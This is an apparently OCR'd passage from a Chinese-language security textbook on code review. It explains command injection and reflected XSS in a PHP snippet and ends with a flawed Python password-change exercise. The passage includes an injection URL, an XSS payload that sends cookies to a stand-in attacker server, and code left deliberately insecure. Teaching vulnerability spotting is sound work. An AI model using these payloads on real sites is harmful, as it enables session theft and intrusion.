 你能在以下 PHP 代码片段中找出漏洞吗？

```
<?php [...]1 $url_path = parse_url($_GET['download_file'], PHP_URL_PATH);2 $command = 'wget -o stdout https://example.com' . $url_path;3 system($command, $output);4 echo "<h1> You requested the page:" . $url_path . "</h1>"; echo $output;  [...]
?>
```

这个页面包含一个命令注入漏洞和一个反射型 XSS 漏洞。通过关注应用程序使用用户提供的 `download_file` 参数的地方，你可以发现这些漏洞。

假设这个页面位于*https://example.com/download*。这段代码获取`download_file` URL 查询参数，并解析 URL 以提取其路径部分 1。然后，服务器下载位于*example.com*服务器上的文件，文件路径与`download_file` URL 中的路径匹配 2。例如，访问这个 URL 将会下载文件*https://example.com/abc*：

```
https://example.com/download?download_file=https://example.com/abc
```

PHP 中的`system()`命令执行系统命令，`system(``COMMAND, OUTPUT``)`将会把`COMMAND`的输出存储到变量`OUTPUT`中。这个程序将用户输入传递给变量`$command`，然后再传递给`system()`函数 3。这意味着用户可以通过注入载荷到`$url_path`中来执行任意代码。用户只需在请求页面时，像这样修改`download_file`的 GET 参数：

```
https://example.com/download?download_file=https://example.com/download;ls
```

然后，应用程序通过直接用户输入在网页上显示一条消息 4。攻击者可以在`download_file`的 URL 路径部分嵌入一个 XSS 载荷，并在受害者访问构造的 URL 后让它反射到受害者的页面上。可以通过以下代码片段生成这个漏洞 URL。（注意，第二行为了显示的需要换行到第三行。）

```
<?php $exploit_string = "<script>document.location='http://attacker_server_ip/cookie_stealer .php?c='+document.cookie;</script>"; echo "https://example.com/" . $exploit_string;
?>
```

## 练习：发现漏洞

这些技巧中的一些可能显得抽象，所以我们通过一个用 Python 编写的示例程序来一步步讲解，这将帮助你练习本章介绍的技巧。最终，审查源代码是一项需要练习的技能。你查看易受攻击的代码越多，越能熟练地发现漏洞。

以下程序存在多个问题。看看你能发现多少个：

```
import requests
import urllib.parse as urlparse
from urllib.parse import parse_qs
api_path = "https://api.example.com/new_password"
user_data = {"new_password":"", "csrf_token":""}
def get_data_from_input(current_url): # get the URL parameters # todo: we might want to stop putting user passwords 1 # and tokens in the URL! This is really not secure.  # todo: we need to ask for the user's current password  # before they can change it! url_object = urlparse.urlparse(current_url) query_string = parse_qs(url_object.query) try: user_data["new_password"] = query_string["new_password"][0] user_data["csrf_token"] = query_string["csrf_token"][0] except: pass
def new_password_request(path, user_data): if user_data["csrf_token"]: 2 validate_token(user_data["csrf_token"]) resp = requests.Response() try: resp = requests.post(url=path, headers=headers, timeout=15, verify=False, data=user_data) print("Your new password is set!") except: pass
def validate_token(csrf_token):  if (csrf_token == session.csrf_token): pass else: raise Exception("CSRF token incorrect. Request rejected.")
def validate_referer(): 3 # todo: implement actual referer check! Now the function is a placeholder. 4 if self.request.referer: return True else: throw_error("Referer incorrect. Request rejected.")
if __name__ == "__main__": validate_referer() get_data_from_input(self.request.url) new_password_request(api_path, user_data)
```
